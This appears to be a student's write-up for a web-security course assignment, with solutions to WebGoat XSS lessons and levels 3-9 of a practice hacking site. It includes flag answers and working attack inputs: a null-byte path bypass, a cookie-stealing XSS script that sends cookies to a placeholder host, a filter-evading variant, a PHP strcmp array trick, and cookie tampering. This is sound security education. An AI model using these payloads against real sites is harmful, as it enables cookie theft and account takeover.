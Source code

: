 # Assignment 4

* Do the following lessons in WebGoat (you do not have to submit any notes regarding these exercises to blackboard):

	* Cross-Site Scripting (XSS) - Stored XSS attacks

		* ![StoredXSS1](img/stored_xss_1.PNG)
		* ![StoredXSS2](img/stored_xss_2.PNG)

	* Cross-Site Scripting (XSS) - Reflected XSS attacks

		* ![ReflectedXSS](img/reflected_xss.PNG)	

* Do the following four exercises on http://websecurity.cs.ru.nl/
	
	* Level 3

		* http://websecurity.cs.ru.nl/?level=3&nieuws=admin/index.php
		* Solution: YTgwZWM1NDg2

	* Level 4
		* http://websecurity.cs.ru.nl/?level=4&nieuws=admin/index.php%00
		* The appended string "%00" represents the nullbyte (\0) and forces php to ignore every appended string behind it
		* See also: http://stackoverflow.com/questions/12731547/can-an-appended-file-suffix-to-a-parameter-for-file-get-contents-be-bypassed
		* Solution: ZjQ5ZmVlOTZm

	* Level 5

		* Use your own host and the cookie stealer script provided on the websec website.
		* In the searchterm field enter: ``` <script>document.location="http://yourhoster.com/stealer.php?cookie="+document.cookie</script>```
		* Click on the search button and use Webscarab to get the resulting url to the search term.
		* Go to the contact site and enter the before mentioned url you created with your malicious code.
		* Solution: NzM2MGUzMWJh

	* Level 6
		
		* Nearly the same approach as Level 5 but this time greater than and less than symbols are getting filtered. There is no recursive filtering though.
		* We can therefore use a snippet like this for the searchterm: ``` <scr<script>ipt>document.location="http://yourhoster.com/stealer.php?cookie="+document.cookie</scr</script>ipt> ```
		* See also: https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)#Example_5:_Bypassing_non-recursive_filtering
		* Solution: NDY3YjMwZjRl

	* Level 7

		* There is a bug in the strcmp funtion which cannot handle arrays as input and therefore returns 0 which gives you the solution. Inspect the html source and change the name of the input field "pass" to "pass[]".
		* See also: https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf
		* Solution: YjU1NWY4MzBi

	* Level 8
	
		* No idea so far. Seems like i have to change the referer.

	* Level 9
	
		* Do a post request with some testdata for the input fields. Take a look at this post request in WebScarab and change the cookie value "LoggedIn=false" to "LoggedIn=true".
		* When you fire the manual request in WebScarab, you should be able to see the password.
		* Solution: OGRkNDRmMDU3	



		






	